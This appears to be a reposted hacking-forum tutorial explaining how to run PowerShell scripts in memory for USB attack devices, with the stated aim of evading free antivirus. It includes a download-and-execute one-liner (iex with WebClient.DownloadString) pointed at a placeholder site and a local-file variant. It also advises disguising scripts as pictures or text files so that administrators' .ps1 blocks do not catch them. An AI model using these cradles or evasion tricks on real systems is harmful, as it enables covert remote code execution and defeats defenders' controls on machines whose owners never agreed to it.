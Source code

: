 ## Running PowerShell scripts in memory
###### Author: Dave-ee Jones
###### Subject: PowerShell
###### Original post: [Link](https://forums.hak5.org/topic/41729-running-powershell-in-memory/)

### DISCLAIMER:
I don't claim to know everything in this area, I am just giving you a general idea and some resources.

So I've seen lots of PowerShell-based scripts (for the Ducky and BB especially), and there are a few people talking about running PS scripts in memory so that most free anti-virus software can't detect the script. Since most newbies don't know how to do this (and even some elderbies), I figured I would give you a few links and a brief explanation myself.

So, without further ado, let's get started!

### First, let's consider; what does loading a script into memory mean?
Well, we all know how variables and functions work, right?
```
var1 = "hello there!"
```
When this bit of code executes it has just told the computer 'Okay, make sure you remember this, now. Var1 equals "hello there!"' and the computer has gone 'K, boss!' and puts it into it's memory, just like we would with a bit of information we've been given. Functions are the same. In Lua (using Lua as an example because it's the language I'm most familiar with) I could do something like this:
```
local var = "hello world!"

local func = function()
	print(var)
end
```
This has put the function 'func' and variable 'var' into memory. 'Func' is executable, so when we call the function like so it will do like so:
```
func()

OUTPUT:
hello world!
```
So we've just executed a function that was first placed in memory, but SOURCED from the script (text file) itself. We can do the same with scripts. We can load a script into a variable, allowing us to call it from memory.

### Okay, that's great, but how do I load a *script* into a variable - and how am I supposed to run it?

First off, we have to remember to store the script outside of the machine we're running the script on. THEN we need to use an amazing PowerShell module called 'Invoke-Expression', which allows us to execute strings. You can see where this is going, right?

If we're getting the script from a website or a webserver, we can do something like this:
```
$url = ‘https://www.justaprank.com/scripts/script1.ps1′
iex ((New ObjectNet.WebClient).DownloadString($url))
```
 This will download the whole contents of the 'script1.ps1' file, allowing us to execute it with 'iex' which is the shorthand alias of 'Invoke-Expression', NOT Internet Explorer.

If we're getting the script from a file hosted on an SMB server, USB (Ducky/BB) or outside source, we can do something like this:
```
iex (Get-Content pathtoscript\script1.txt)
```
The beauty about both of these ways is we don't have to have a specific '.ps1' extension on it, allowing us to load all kinds of scripts that can be disguised as pictures, video, text files etc.

**IN FACT** it's better NOT to have a '.ps1' extension because there are people (especially Domain Administrators) who block '.ps1' scripts from being read/executed, so having a different extension helps greatly, even if loading from an outside source (web server, USB).

So I hope this has helped some of you understand what we mean by running a script in memory, and how powerful it can be! Keep in mind that there are still lots of Anti-virus software that will detect stuff like this, but, unfortunately, most of it is paid software (money-making losers who think money > security..).

Also keep in mind that there are plenty of other ways of storing scripts in memory (one being using C#), but these are (arguably) the easiest.

### And now, resources!
- [Main Resource](https://securingtomorrow.mcafee.com/business/fileless-malware-execution-with-powershell-is-easier-than-you-may-realize)
- [Code Execution](https://github.com/PowerShellMafia/PowerSploit/tree/master/CodeExecution)
	- By [PowerShellMafia](https://github.com/PowerShellMafia)
- [Clymber](https://clymb3r.wordpress.com/)
- [Defcon 21](https://www.defcon.org/images/defcon-21/dc-21-presentations/Bialek/DEFCON-21-Bialek-PowerPwning-Post-Exploiting-by-Overpowering-Powershell.pdf)
